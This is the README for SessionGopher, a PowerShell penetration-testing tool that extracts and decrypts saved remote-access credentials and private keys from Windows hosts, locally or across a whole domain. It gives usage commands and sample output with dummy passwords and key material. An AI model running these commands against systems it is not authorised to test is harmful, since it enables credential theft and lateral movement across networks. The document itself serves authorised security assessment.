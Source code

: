 Copyright 2017 FireEye, created by Brandon Arvanaghi ([@arvanaghi](https://twitter.com/arvanaghi))

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

# SessionGopher
## Quietly digging up saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP

SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It has WMI functionality built in so it can be run remotely.
Its best use case is to identify systems that may connect to Unix systems, jump boxes, or point-of-sale terminals.

SessionGopher works by querying the `HKEY_USERS` hive for all users who have logged onto a domain-joined box at some point. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved session information. It automatically extracts and decrypts WinSCP, FileZilla, and SuperPuTTY saved passwords.
When run in Thorough mode, it also searches all drives for PuTTY private key files (.ppk) and extracts all relevant private key information, including the key itself, as well as for Remote Desktop (.rdp) and RSA (.sdtid) files.

## Usage
**-Thorough**: searches all drives for PuTTY private key (.ppk), Remote Desktop Connecton (.rdp), and RSA (.sdtid) files. 

**-o**: outputs the data to a folder of .csv files

**-iL**: provide a file with a list of hosts to run SessionGopher against, each host separated by a newline. Provide the path to the file after `-iL`.

**-AllDomain**: SessionGopher will query Active Directory for all domain-joined systems and run against all of them.

**-Target**: a specific host you want to target. Provide the target host after `-Target`.

### To run locally
```
. .\SessionGopher.ps1
Invoke-SessionGopher -Thorough
```

### To run remotely (-iL, -AllDomain, -Target)
To run remotely, you can either provide a privileged account's credentials for the remote system using the `-u` and `-p` flags. If you omit the `-u` and `-p` flags, 
SessionGopher will run under the security context of the account from which you run the script (e.g. if you are already logged in as DA account, or logged in as an account that
is local admin for the target system, or doing a _runas_ with either of the two, you won't need to supply credentials).

```
. .\SessionGopher.ps1
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```
or
```
. .\SessionGopher.ps1
Invoke-SessionGopher -iL computerlist.txt -u domain.com\adm-arvanaghi -p s3cr3tP@ss -o
```
or 
```
. .\SessionGopher.ps1
Invoke-SessionGopher -Target brandonArvanaghi_win7 -Thorough
```

Any of these commands can be coupled with `-Thorough`, but note that it takes significantly longer as it queries the entire remote filesystem. It is not recommended you run in `-Thorough` mode when querying
more than a small set of systems at a time. 

Running remotely by adding `-o` (print to CSV) works nicely, as SessionGopher will accumulate all sessions it finds and tell you exactly where it found that saved session. 

### To write to CSV (whether remote or local)
To have SessionGopher create a folder to neatly contain .csvs of the extracted sessions:
```
. .\SessionGopher.ps1
Invoke-SessionGopher -AllDomain -o
```
... that's it. 

Accessing the saved session information for every user in `HKEY_USERS` requires local admin privileges. Without local admin privileges, you will still receive saved session
information for that user.

### Sample output (-Thorough):

```
[+] Digging on Win7-Arvanaghi ...
 WinSCP Sessions

Session  : admin-anthony@198.273.212.334
Hostname : 198.273.212.334
Username : admin-anthony
Password : Super*p@ssw0rd

Session  : Freddy@204.332.455.213
Hostname : 204.332.455.213
Username : Freddy
Password : angelico1892

FileZilla Sessions

Name     : BarrySite
Password : imr34llytheFl@sh
Host     : 10.8.30.21
User     : BarryAllen
Protocol : Use FTP over TLS if available
Account  : BarryAllenAccount
Port     : 22

PuTTY Sessions

Session  : PointOfSaleTerminal
Hostname : 10.8.0.10

PuTTY Private Key Files (.ppk)

Path                   : C:\Users\Brandon Arvanaghi\Documents\mykey.ppk
Protocol               : ssh-rsa
Comment                : rsa-key-20170116
Private Key Encryption : none
Private Key            : {AAABAEazxtDz6E9mDeONOmz07sG/n1eS1pjKI8fOCuuLnQC58LeCTlysOmZ1/iC4, g4HyRpmdKJGhIxj66/RQ135hVesyk02StleepK4+Tnvz3zmdr4Do5W99qKkrWI3D, T9GOxOIoR9Zc6j57D+fdesJq4ItEIxcQZlXC1F9KZcbXjSJ3iBmCsbG/aRJmMJNx, 
                         nCMaZkySr4R4Z/E+l1JOzXaHh5WQ2P0K4YM1/6XG6C4VzDjvXwcY67MYsobTeCR2...}
Private MAC            : b7e47819fee39a95eb374a97f939c3c868f880de


Microsoft Remote Desktop (RDP) Sessions

Hostname : us.greatsite.com
Username : Domain\tester 

Microsoft Remote Desktop .rdp Files

Path                    : C:\Users\Brandon Arvanaghi\Desktop\config\PenTestLab-Win.RDP
Hostname                : dc01.corp.hackerplaypen.com
Gateway                 : rds01.corp.hackerplaypen.com
Prompts for Credentials : No
Administrative Session  : Does not connect to admin session on remote host

```

---

Written by Brandon Arvanaghi ([@arvanaghi](https://twitter.com/arvanaghi "Arvanaghi's Twitter"))


